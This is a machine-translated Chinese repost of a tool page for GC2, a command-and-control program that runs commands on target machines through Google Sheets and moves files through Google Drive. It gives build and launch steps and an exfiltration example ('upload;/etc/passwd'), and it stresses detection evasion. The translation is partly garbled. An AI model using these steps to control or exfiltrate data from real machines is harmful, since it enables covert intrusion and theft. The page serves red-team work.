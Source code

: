 # GC2:一个命令和控制应用程序，允许攻击者使用 Google Sheet 在目标机器上执行命令，并使用 Google Drive 泄漏数据

> 原文：<https://kalilinuxtutorials.com/gc2/>

[![](img/718cc7e8b572c981a25fc35dfeadd3a1.png)](https://blogger.googleusercontent.com/img/a/AVvXsEiE_7mU-tO5G2dWGEffB1Hrhv-ylS1_JPEcjROjw40m078MSXthSIMaM0_anYSVGfDjr4tM9wykJcMAePXfVPXT3_3SJHN-sbKmhtMQMZvyLkqu65l3ZFS3yQfwgA-F8FLbhBf_d_yV6jW2xkNezYEUtiWUfJHnMe1prDEKfcPLDL4i4B9Ig1wfrj1w=s728)

**GC2**(Google Command and Control)是一个命令和控制应用程序，允许攻击者使用 Google Sheet 在目标机器上执行命令，并使用 Google Drive 导出数据。

**为什么**

开发该程序是为了在 Red 团队活动中提供不需要任何特殊设置(如:自定义域、VPS、CDN 等)的命令和控制。

此外，该程序将只与谷歌的域名(*.google.com)进行交互，使检测更加困难。

PS:请不要在 VirusTotal 上上传编译好的二进制🙂

**设置**

**构建可执行文件**

**git 克隆 https://github.com/looCiprian/GC2-sheet
CD GC2-sheet
去构建 gc2-sheet.go**

*   **创建新的 google“服务帐户”**使用 https://console.cloud.google.com/,创建新的 google“服务帐户”为服务帐户创建一个. json 密钥文件
*   **启用 Google Sheet API 和 Google Drive API** 启用 Google Drive API https://developers.google.com/drive/api/v3/enable-drive[–](https://developers.google.com/drive/api/v3/enable-drive-api)API 和 Google Sheet API https://developers.google.com/sheets/api/quickstart/go
*   **设置 Google Sheet 和 Google Drive** 创建一个新的 Google Sheet，并将服务帐户添加到电子表格的编辑组中(要添加服务帐户，请使用其电子邮件)

创建一个新的 Google Drive 文件夹，并将服务帐户添加到该文件夹的编辑组中(要添加服务帐户，请使用其电子邮件)

**启动 C2**

**gc2-sheet-key<GCP 服务账户凭证文件。JSON>–sheet<Google sheet ID>–drive<Google drive ID>**

*   PS:您还可以在代码中硬编码参数，这样您将只上传目标机器上的可执行文件(查看 root.go 和 authentication.go 中的注释)

**特色**

*   使用 Google Sheet 作为控制台执行命令
*   使用 Google Drive 在目标上下载文件
*   使用 Google Drive 进行数据渗透
*   出口

**命令执行**

该程序将每 5 秒执行一次对 spreedsheet 的请求，以检查是否有新的命令。命令必须插入“A”列，输出将打印在“B”列。

**数据泄露文件**

保留特殊命令来执行到目标机器的上传和下载

**从目标到 Google Drive**
**上传；
举例:
上传；/etc/passwd**

**下载文件**

保留特殊命令来执行到目标机器的上传和下载

**从 Google Drive 到 Target
下载；；
举例:
下载；；/home/user/downloaded.txt**

**退出**

通过发送命令 *exit* ，程序将从目标中删除自己并终止其进程

PS:来自 *os* 文档:*如果一个符号链接被用来启动进程，根据操作系统的不同，结果可能是符号链接或者它指向的路径*。在这种情况下，符号链接被删除。

**工作流程**

![](img/07c52082b369e05a79265fe666d9e33d.png)[**Download**](https://github.com/looCiprian/GC2-sheet)